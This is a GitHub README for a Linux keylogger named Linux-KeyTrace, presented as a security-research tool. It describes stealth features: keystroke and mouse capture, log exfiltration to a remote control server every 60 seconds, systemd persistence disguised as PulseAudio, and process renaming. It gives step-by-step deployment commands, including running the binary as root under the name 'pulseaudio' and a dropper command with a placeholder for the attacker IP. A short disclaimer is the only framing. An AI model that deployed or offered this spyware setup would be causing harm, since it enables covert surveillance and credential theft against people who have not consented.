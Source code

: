 ![Linux-KeyTrace Banner](Banner.png)

#  🔐 Linux-KeyTrace <sup><sub>v1.0</sub></sup>

**Linux-KeyTrace** is a Linux-based advanced keylogger built for cybersecurity research and awareness purposes. It captures keystrokes and mouse activity, logs them locally with timestamps, and periodically exfiltrates logs to a remote control server. It includes stealth features such as process renaming and service masquerading.

---

## ⚠️ Disclaimer

> This project is intended **strictly for educational and ethical security research purposes only**.  
> Do **not** use it on systems without **explicit authorization**.  
> The developer assumes **no responsibility** for misuse.

---

## 🔧 Features

- ✅ **Keyboard and Mouse logging** via `/dev/input` event interfaces    
- ✅ **Dynamic device discovery** (`/proc/bus/input/devices`)  
- ✅ **Remote control server** (Flask-based):  
  - Start, stop, cleanup commands  
  - Upload and download logs  
  - Serve payload binary  
- ✅ **Dropper script** to simulate infection  
- ✅ **Persistence** via systemd service (masqueraded as PulseAudio)  
- ✅ **Log exfiltration** every 60 seconds using `libcurl`  
- ✅ **Process disguise** (`pulseaudio`) and binary obfuscation  

---

## 📁 Project Structure

```
Linux-KeyTrace/
├── include/                # Header files
├── src/                    # Keylogger core logic
│   ├── device_finder.c     # Finds keyboard and mouse devices
│   ├── exfiltrator.c       # Sends logs to remote server, fetches commands
│   ├── keymap.c            # Maps keycodes to readable characters
│   ├── logger.c            # Captures and logs keystrokes/mouse events
│   └── main.c              # Main program: init, loop, cleanup
├── server/                 # Flask-based control server
│   ├── listener.py         # Control server backend
│   ├── control.txt         # Remote command file (run, stop, cleanup)
│   ├── ip.txt              # Stores IP used by client
│   └── received_logs/      # Incoming logs from clients
├── misc/                   # systemd service file
├── dropper.sh              # Simulates payload delivery
├── Makefile                # Build instructions
└── README.md               # Project info
```

---

## 🛠️ Prerequisites

Make sure you have the following installed on your Linux system before building:

```bash
sudo apt update
sudo apt install -y build-essential libcurl4-openssl-dev linux-headers-$(uname -r)
```

- `build-essential`: GCC compiler, make, and essential tools  
- `libcurl4-openssl-dev`: Development files for libcurl used in network exfiltration  
- `linux-headers-$(uname -r)`: Kernel headers for accessing input devices  

---

## 🚀 Quick Setup

### 1. Build the Keylogger

```bash
make clean && make
```

---

### 2. Start the Control Server

```bash
cd server
python3 -m venv venv       # Create python virtualenv
source venv/bin/activate   # Start virtualenv
pip install -r requirements.txt 
python3 listener.py
```

The server will start on `http://<your-ip>:8080`

---

### 3. Run the Keylogger (simulate infection)

**Terminal 1** (compile and run):

```bash
ps aux | grep pulseaudio
sudo kill <PID>            # Optional if testing
sudo ./pulseaudio          # Run the keylogger as root 
```

**Terminal 2** (server already running)

**Terminal 3** (simulate dropper execution):

```bash
./dropper.sh 127.0.0.1     # Replace with attacker IP
```

**Terminal 4** (view logs):

```bash
cd server/received_logs
tail -f keylog.txt
```

---

## 📌 Notes
 
- The keylogger requires **root permissions** to access `/dev/input/event*` devices.  
- Tested on modern Linux distributions with X11.  

---

## 🛡️ Legal Notice

This tool is designed for **red team training**, **ethical hacking labs**, or **controlled environments**.  
Unauthorized use **may violate privacy laws and computer misuse legislation** in your jurisdiction.

---

## 📜 License

This project is licensed under the **GNU General Public License v3.0**.  
You are free to **use, modify, and distribute** this software, as long as any copies or derivative works are also licensed under the **GPLv3**.

> 🛡️ This ensures the project remains free and open for everyone.

See the full license text in the [LICENSE](LICENSE) file.

---

## 📫 Contact

For inquiries related to responsible usage, security research, or contributing to the project, please reach out via GitHub.

## Author
Developed by Kunal Dharme.

